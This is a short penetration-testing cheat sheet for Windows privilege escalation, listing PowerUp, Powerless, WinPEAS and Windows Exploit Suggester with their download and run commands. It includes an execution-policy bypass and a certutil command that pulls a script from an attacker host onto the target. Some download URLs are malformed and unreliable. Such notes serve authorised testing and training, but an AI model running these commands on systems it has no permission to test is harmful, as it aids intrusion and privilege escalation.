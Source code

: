 
- PowerUP
  - Powershell required
  - Download `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
  - Run on Windows `powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"`
  
- Powerless
  - For legacy systems
  - Powershell not available
  - Download `wget https://raw.githubusercontent.com/gladiatx0r/Powerless/blob/master/Powerless.bat`
  - Drop `certutil.exe -urlcache -split -f "http://$IP/Powerless.bat" Powerless.bat`
  - Run on Windows `Powerless.bat`
  
 - WinPEAS
   - Release https://github.com/carlospolop/PEASS-ng/releases/tag/20220807
    
 - Windows Exploit Suggester
   - https://github.com/AonCyberLabs/Windows-Exploit-Suggester
   - Download `wget https://github.com/AonCyberLabs/Windows-Exploit-Suggester/blob/master/windows-exploit-suggester.py`
   - Run `systeminfo` on the target Windows machine and save the output in a txt file.
   - `python3 windows-exploit-suggester.py --update`
   - `python3 windows-exploit-suggester.py --database 2014-06-06-mssb.xlsx --systeminfo systeminfo.txt`
